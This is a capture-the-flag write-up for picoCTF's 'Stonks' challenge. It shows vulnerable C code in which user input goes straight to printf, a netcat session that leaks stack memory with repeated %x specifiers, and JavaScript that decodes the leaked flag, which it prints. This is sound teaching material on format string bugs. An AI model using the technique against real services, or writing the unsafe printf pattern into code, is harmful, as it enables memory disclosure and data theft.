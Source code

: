 # Stonks

## Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/7e71fc0d8cc3339bfad6bf408f7dc510/vuln.c) `nc mercury.picoctf.net 6989`

## Hints

- Hint 1: Okay, maybe I'd believe you if you find my API key.

## Solution

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

After reading the source code, we can see that the program is reading 300 characters from the user and printing it out. This is a **String Format Vulnerability**. ([Learn more](https://owasp.org/www-community/attacks/Format_string_attack)). Let's see if we can leak the flag.

```bash
$ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
8f5c450804b00080489c3f7fc2d80ffffffff18f5a160f7fd0110f7fc2dc708f5b18018f5c4308f5c4506f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3538613032356533ffa9007df7ffdaf8f7fd0440a4589d0010f7e5fce9f7fd10c0f7fc25c0f7fc2000ffa92ec8f7e5068df7fc25c08048ecaffa92ed40f7fe4f09
Portfolio as of Fri Jan 26 12:02:55 UTC 2024


1 shares of TW
1 shares of JL
10 shares of UEUB
140 shares of KMFC
63 shares of L
6 shares of GVDM
46 shares of FOGH
40 shares of IN
240 shares of G
513 shares of OS
566 shares of XYG
Goodbye!
```

I got a lot of hex values. I tried to decode it using [CyberChef](https://gchq.github.io/CyberChef/) using the **From Hex** operation.

Here is the hex:

```
8f5c450804b00080489c3f7fc2d80ffffffff18f5a160f7fd0110f7fc2dc708f5b18018f5c4308f5c4506f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3538613032356533ffa9007df7ffdaf8f7fd0440a4589d0010f7e5fce9f7fd10c0f7fc25c0f7fc2000ffa92ec8f7e5068df7fc25c08048ecaffa92ed40f7fe4f09
```

Here is the decoded hex:

```
\E° H?ÂØÿÿÿñZÐÂÜp[\CõÄPocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3ÿ© }÷ÿÚø÷ý@¤X ÷åüé÷ýÀ÷ü%À÷ü  ÿ©.È÷å÷ü%ÀHì¯úí@÷þO
```

As you can see, there is a flag in the decoded hex `ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3}`. But it is reversed by 4 characters. I this javascript code to reverse it.

```javascript
console.log(
  "ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3}"
    .match(/.{1,4}/g)
    .map((x) => x.split("").reverse().join(""))
    .join("")
);
```

```bash
$ node reverse.js
picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}
```

## Flag

picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}
